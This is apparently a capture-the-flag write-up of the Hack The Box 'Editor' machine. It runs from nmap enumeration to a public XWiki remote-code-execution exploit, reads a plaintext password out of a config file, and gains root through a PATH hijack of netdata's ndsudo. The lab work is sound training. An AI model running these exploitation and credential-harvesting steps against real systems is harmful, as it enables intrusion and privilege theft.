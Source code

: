 # [Challenge](https://app.hackthebox.com/machines/Editor)

# ENUM
## nmap (`nmap -A -p- -T4 --min-rate 5000 editor.htb`)
```nmap
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Editor - SimplistCode Pro
8080/tcp open  http    Jetty 10.0.20
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-title: XWiki - Main - Intro
|_Requested resource was http://editor.htb:8080/xwiki/bin/view/Main/
|_http-server-header: Jetty(10.0.20)
| http-webdav-scan: 
|   Server Type: Jetty(10.0.20)
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  WebDAV type: Unknown
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# EXPLOITATION
Let's see if there's an exploit for XWiki 15.10.8: let's try `CVE-2025-24893: Remote Code Execution`
[It worked](https://github.com/gunzf0x/CVE-2025-24893)! Now we have a shell as `xwiki`.
`python3 -c "import pty;pty.spawn('/bin/bash')"`
# PRIVILEGE ESCALATION	
We need to find oliver's credentials, let's check `hibernate.cfg.xml`: `cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password` -> `theEd1t0rTeam99`
Now let's log into SSH as oliver and let's check `user.txt`: ``

```bash
$ find / -perm -4000 2>/dev/null
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
```
I searched for all of them, and `ndsudo` is vulnerable to `CVE-2024-32019`: 
> This POC is used to exploit a vulnerable `ndsudo` utility bundled with Netdata to escalate local privileges to root. The exploit works by injecting a malicious binary into the user’s `PATH` that impersonates a trusted command (`nvme`) and is executed with root privileges by `ndsudo`. [GitHub](https://github.com/AzureADTrent/CVE-2024-32019-POC)

Let's load the script, compile and run it: `gcc poc.c -o nvme` -> upload `nvme` to `editor` -> `chmod +x nvme` -> `export PATH=/tmp:$PATH` -> `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`
We're ROOT!
`root.txt`: `ca9c79fd519cadc952b50295f789cef2`